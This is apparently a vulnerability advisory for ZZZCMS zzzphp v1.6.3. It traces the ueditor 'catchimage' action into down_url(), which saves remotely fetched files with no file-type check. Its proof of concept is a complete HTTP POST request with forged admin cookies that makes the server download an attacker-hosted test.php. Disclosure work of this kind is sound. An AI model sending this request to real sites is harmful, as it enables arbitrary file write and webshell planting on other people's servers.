




# ZZZCMS zzzphp v1.6.3 remote write file with dangerous type

#### Detail:
/plugins/ueditor/php/controller.php Line 4:

```php
$action = getform('action','get');
$upfolder = getform('upfolder','get');
switch ($action) {
    case 'config':
        $result = json_encode($CONFIG);
        break;
    
    /* 上传图片 */
    case 'uploadimage':
    /* 上传涂鸦 */
    case 'uploadscrawl':
    /* 上传视频 */
    	$result =tojson(upload($_FILES['upfile'],'image',$upfolder));
        break;   
    /* 上传文件 */
    case 'uploadfile':
       $result =tojson(upload($_FILES['upfile'],'file',$upfolder));
        break;    
    /* 列出图片 */
		 case 'uploadvideo':
			$result =tojson(upload($_FILES['upfile'],'video',$upfolder));
        break;   
    case 'listimage':
		$size=getform('size','get');
		$start=getform('start','get');
		$end = $start + $size;
		$allowFiles=str_replace(",","|",conf('imageext'));
		$path = UPLOAD_DIR.$upfolder.'/';
		$files = getfiles($path, $allowFiles);
		if (! count($files)) {
			return json_encode(array(
				"state" => "no match file",
				"list" => array(),
				"start" => $start,
				"total" => count($files)
			));
		}
		$len = count($files);
		for ($i = min($end, $len) - 1, $list = array(); $i < $len && $i >= 0 && $i >= $start; $i --) {
			$list[] = $files[$i];
		}
		$result = json_encode(array(
			"state" => "SUCCESS",
			"list" => $list,
			"start" => $start,
			"total" => count($files)
		));		
        break;
    /* 列出文件 */
    case 'listfile':
        $result = getfiles();
        break;
    
    /* 抓取远程文件 */
    case 'catchimage':
		$source=$_POST['source'];
		$list = array();
     	foreach ($source as $imgUrl) {
			$info =down_url($imgUrl,SITE_DIR.conf('uploadpath').$upfolder.'/'); 
			 array_push($list, array(			
				"state" => "SUCCESS",				
				"title" => $info["title"],
				"url" => $info["url"],
				"source"=>$imgUrl
			));
		}
		$result =  json_encode(array(
			'state' => count($list) ? 'SUCCESS' : 'ERROR',
			'list' => $list
		));
        break;
    default:
        $result = json_encode(array(
            'state' => '请求地址出错'
        ));
        break;
}
```

when $aciton='catchimage': get $source from $_POST ->  **foreach ($source as $imgUrl)**-> **down_url($imgUrl,SITE_DIR.conf('uploadpath').$upfolder.'/');**  $source must be array.

```php
    case 'catchimage':
		$source=$_POST['source'];
		$list = array();
     	foreach ($source as $imgUrl) {
			$info =down_url($imgUrl,SITE_DIR.conf('uploadpath').$upfolder.'/');
```

**down_url()** /inc/zzz_file.php Line 814:

```php
function down_url( $url, $save_dir = '', $filename = '', $type = 1 ) {
	if ( is_null( $url ) ) return array( 'title' => '', 'dir' => '', 'url' => '', 'error' => 1 );
	if ( is_null( $save_dir ) )$save_dir = './';
	if ( trim( $filename ) == '' ) { //保存文件名 
		$ext = strrchr( $url, '.' );
		$filename = file_name( $url );
		$file_ext = file_ext( $url );
	}
	//创建保存目录 
	if ( !file_exists( $save_dir ) && !mkdir( $save_dir, 0777, true ) ) {
		return array( 'title' => '', 'dir' => '', 'url' => '', 'error' => 5 );
	}
	$file_dir = $save_dir . $filename;
	$file_path = str_replace( SITE_DIR, SITE_PATH, $file_dir );
	if ( file_exists( $file_dir ) ) return array( 'title' => $filename, 'dir' => $file_dir, 'url' => $file_path, 'error' => 0 );
	//获取远程文件所采用的方法  
	if ( $type ) {
		$ch = curl_init();
		$timeout = 5;
		curl_setopt( $ch, CURLOPT_URL, $url );
		curl_setopt( $ch, CURLOPT_RETURNTRANSFER, 1 );
		curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, $timeout );
		$img = curl_exec( $ch );
		curl_close( $ch );
	} else {
		ob_start();
		readfile( $url );
		$img = ob_get_contents();
		ob_end_clean();
	}
	$fp2 = @fopen( $save_dir . $filename, 'a' );
	fwrite( $fp2, $img );
	fclose( $fp2 );
	unset( $img, $url );
	return array( 'title' => $filename, 'dir' => $file_dir, 'ext' => $file_ext, 'url' => $file_path, 'error' => 0 );
}
```

filename='' -> **file_name() file_ext()**

```php
	if ( trim( $filename ) == '' ) { //保存文件名 
		$ext = strrchr( $url, '.' );
		$filename = file_name( $url );
		$file_ext = file_ext( $url );
	}
```

Line 114,135: no restricted

```php
function file_ext( $filename, $max = 16, $len = 1 ) {
	$filename = strpos( $filename, '?' ) !== false ? arr_split( $filename, '?', 0 ) : $filename;
	$ext = strtolower( substr( strrchr( $filename, '.' ), $len ) );
	strlen( $ext ) > $max AND $ext = substr( $ext, 0, $max );
	return $ext;
}
...
function file_name( $path ) {
	return substr( $path, strrpos( $path, '/' ) + 1 );
}

```

Line 830: request url -> save content to $img. Php code won't show up in php environment, so we need another environment, such as the jsp environment

```php
	//获取远程文件所采用的方法  
	if ( $type ) {
		$ch = curl_init();
		$timeout = 5;
		curl_setopt( $ch, CURLOPT_URL, $url );
		curl_setopt( $ch, CURLOPT_RETURNTRANSFER, 1 );
		curl_setopt( $ch, CURLOPT_CONNECTTIMEOUT, $timeout );
		$img = curl_exec( $ch );
		curl_close( $ch );
```

Line 844: write file

```php
	$fp2 = @fopen( $save_dir . $filename, 'a' );
	fwrite( $fp2, $img );
	fclose( $fp2 );
```

#### POC:

Build a jsp environment on another host.





action=catchimage, source[]=http://192.168.0.109/test.php

```php
POST /zzzphp/plugins/ueditor/php/controller.php?action=catchimage HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:63.0) Gecko/20100101 Firefox/63.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1/zzzphp/plugins/ueditor/php/controller.php?action=catchimage
Content-Type: application/x-www-form-urlencoded
Content-Length: 50
Connection: close
Cookie: zzz_adminpass=1; zzz_adminpath=0; zzz_adminname=admin; zzz_adminface=..%2Fplugins%2Fface%2Fface1.png; PHPSESSID=uie4htn7oqethfmvspipaq7ob6
Upgrade-Insecure-Requests: 1

source%5B%5D=http%3A%2F%2F192.168.0.109%2Ftest.php
```

success:




